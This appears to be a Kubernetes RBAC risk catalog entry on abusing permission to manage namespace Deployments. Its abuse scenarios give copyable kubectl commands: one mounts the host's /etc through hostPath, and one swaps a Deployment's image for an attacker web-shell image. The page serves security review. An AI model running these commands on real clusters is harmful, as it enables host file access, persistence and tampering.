 ```yaml
---
id: 1034
title: "Manage Deployments in a namespace (potential for privileged pod execution)"
description: "Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1034                                                                                                                         |
| Name          | Manage Deployments in a namespace (potential for privileged pod execution)                                                   |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | apps                                                                                                                         |
| Resources     | deployments                                                                                                                  |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications.

## Abuse Scenarios

1. Create a new Deployment with a hostPath mount in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: hostpath-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-app
  template:
    metadata:
      labels:
        app: hostpath-app
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n development -f - <<EOF ... EOF

```

2. Update an existing Deployment's image to a malicious one.

```bash {copy=true}
kubectl set image deployment/<deployment-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image deployment/my-web-app web=attacker/web-shell -n default

```
